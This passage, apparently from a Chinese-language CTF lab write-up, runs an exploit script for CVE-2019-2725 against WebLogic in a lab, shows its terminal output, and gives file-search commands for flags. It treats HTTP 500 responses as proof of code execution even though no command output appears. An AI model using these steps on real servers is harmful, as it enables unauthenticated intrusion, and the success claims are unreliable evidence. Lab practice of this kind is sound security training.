 **执行手工攻击**:

```bash
# 保存脚本为manual_exploit.py
python3 manual_exploit.py http://10.37.133.3:7001 "id"

# 获取系统信息
python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

# 查看当前目录
python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"
```

**攻击执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "id"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: id
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: uname -a
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: pwd && ls -la
[+] HTTP状态码: 500
[+] 响应长度: 500 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**✅ 攻击成功确认**:

1. **HTTP 500状态码**: 所有命令执行都返回500状态码，这是CVE-2019-2725反序列化漏洞触发的典型特征
2. **响应长度变化**: 不同命令的响应长度不同（5287字节 vs 500字节），说明服务器正在处理不同的命令
3. **SOAP载荷成功**: 恶意的ProcessBuilder SOAP载荷成功被WebLogic服务器解析和执行
4. **无认证RCE**: 无需任何认证即可执行系统命令，确认了漏洞的严重性

##### 2.4 Flag搜索与获取

```bash
# 搜索flag文件
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

# 常见flag位置检查
python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

# 搜索包含flag关键字的文件内容
python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"
```
